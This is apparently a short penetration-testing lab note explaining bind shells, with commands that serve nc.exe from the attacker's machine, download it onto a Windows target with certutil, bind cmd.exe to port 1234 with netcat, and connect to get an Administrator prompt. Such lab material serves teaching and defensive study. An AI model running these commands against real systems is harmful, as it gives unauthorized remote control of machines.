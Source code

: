 # Bind Shell
Bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system. 

```bash
└─# cd /usr/share/windows-binaries

┌──(root㉿attackdefense)-[/usr/share/windows-binaries]
└─# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

On target machine
```bash
certutil -urlcache http://targetIP/nc.exe nc.exe


# All client connected to the listener cmd.exe will be executed
nc.exe -nvlp 1234 -e cmd.exe
```

```bash
└─# nc -nv 10.0.18.80 1234                                                
(UNKNOWN) [10.0.18.80] 1234 (?) open
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```